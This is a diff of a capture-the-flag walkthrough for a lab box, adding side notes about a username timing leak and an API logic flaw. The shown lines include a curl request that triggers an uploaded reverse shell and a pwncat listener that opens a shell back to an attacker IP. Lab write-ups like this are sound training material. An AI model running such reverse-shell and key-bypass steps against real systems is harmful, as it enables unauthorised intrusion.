

Before and after one commit to z0ne323/CR47, a Markdown page: Walkthrough/Walkthrough.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Walkthrough/Walkthrough.md
+++ b/Walkthrough/Walkthrough.md
@@ -377,6 +377,8 @@ We also have an additional information, a name, `Santiago Carrillo`, he might be
 #### Getting through `administracion.php`
 
 After trying different username format, we end up finding a valid pair of credential with `santiago.carrillo` as the username:
+
+(Side note: This username format can be found by seeing that using `santiago.carrillo` for our requests gave us a longer response time then a faulty username)
 
 ```bash
 ┌──(kali㉿kali)-[~]
@@ -1162,6 +1164,15 @@ Now we can call the `3x3cut3/` endpoint like so:
 
 We should see our command hang and if we go back to the tab we set up our listener on, we should see a connection back! :
 
+(**SIDE NOTE**: It's actually possible, because of an error of logic in the code of the API, to submit the regular api key as the `X-Sensitive-API-Key` header and execute your code like so:
+
+```bash
+┌──(kali㉿kali)-[~/Desktop]
+└─$ curl -X POST -H "X-Sensitive-API-Key: 7h1515d3f1n1731y4n4p1k3y" -d "file=revshell" -k https://cr47.cr:4443/3x3cut3
+
+```
+)
+
 ```bash
 ┌──(kali㉿kali)-[~/Desktop]
 └─$ pwncat -l 8888 --self-inject /bin/bash:192.168.67.132:8443
@@ -1242,6 +1253,8 @@ You can also delete your reverse shell file through the endpoint `d3l3t3/` just
 └─$ curl -X DELETE -H "X-API-Key: 7h1515d3f1n1731y4n4p1k3y" -k https://cr47.cr:4443/d3l3t3?file=revshell
 [+] File revshell deleted successfully
 ```
+
+**SIDE NOTE**
 
 #### Maintaining access
 
````
